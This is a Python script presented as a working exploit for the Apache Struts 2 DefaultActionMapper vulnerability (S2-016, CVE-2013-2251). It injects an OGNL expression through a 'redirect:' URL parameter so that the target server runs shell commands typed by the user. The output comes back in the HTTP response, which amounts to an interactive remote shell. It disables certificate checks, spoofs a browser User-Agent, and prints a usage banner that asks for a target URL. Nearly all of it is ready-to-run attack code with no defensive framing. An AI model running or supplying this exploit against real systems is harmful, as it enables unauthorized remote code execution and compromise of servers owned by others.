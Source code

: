 #!/usr/bin/python3
#
# coding=utf-8
#
# Struts 2 DefaultActionMapper Exploit [S2-016]
# Interactive Shell for CVE-2013-2251
#
# Exploit Author: Jonatas Fil (@exploitation)
# Fixed and Updated to Python 3
#

import requests
import sys
import readline

# Disable SSL warnings
requests.packages.urllib3.disable_warnings()

def exploit(target):
    first = target + "?redirect:${%23a%3d(new%20java.lang.ProcessBuilder(new%20java.lang.String[]{'sh','-c','"
    second = "'})).start(),%23b%3d%23a.getInputStream(),%23c%3dnew%20java.io.InputStreamReader(%23b),%23d%3dnew%20java.io.BufferedReader(%23c),%23e%3dnew%20char[50000],%23d.read(%23e),%23matt%3d%23context.get(%27com.opensymphony.xwork2.dispatcher.HttpServletResponse%27),%23matt.getWriter().println(%23e),%23matt.getWriter().flush(),%23matt.getWriter().close()}"

    while True:
        cmd = input("$ ").strip()
        if cmd == '':
            continue
        if cmd == '\q':
            print("Exiting...")
            sys.exit()

        try:
            headers = {
                "User-Agent": "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/42.0.2311.90 Safari/537.36"
            }
            response = requests.get(first + cmd + second, headers=headers, verify=False)

            if response.status_code == 200:
                print(response.text)  # Print command output
            else:
                print("Not Vulnerable!")
                sys.exit()
        except Exception as e:
            print(f"Error: {e}")
            print("Exiting...")
            sys.exit()

if len(sys.argv) != 2:
    print('''
 __ _          _ _   __       _ _
/ _\ |__   ___| | | /__\_   _(_) |
\ \| '_ \ / _ \ | |/_\ \ \ / / | |
_\ \ | | |  __/ | //__  \ V /| | |
\__/_| |_|\___|_|_\__/   \_/ |_|_|

          by Jonatas Fil [@exploitation]
''')
    print("======================================================")
    print("#    Struts 2 DefaultActionMapper Exploit [S2-016]   #")
    print("# Usage: python3 struts.py http://site.com:8080/xxx.action #")
    print("======================================================")
    print("bye")
    sys.exit()

target_url = sys.argv[1]
exploit(target_url)

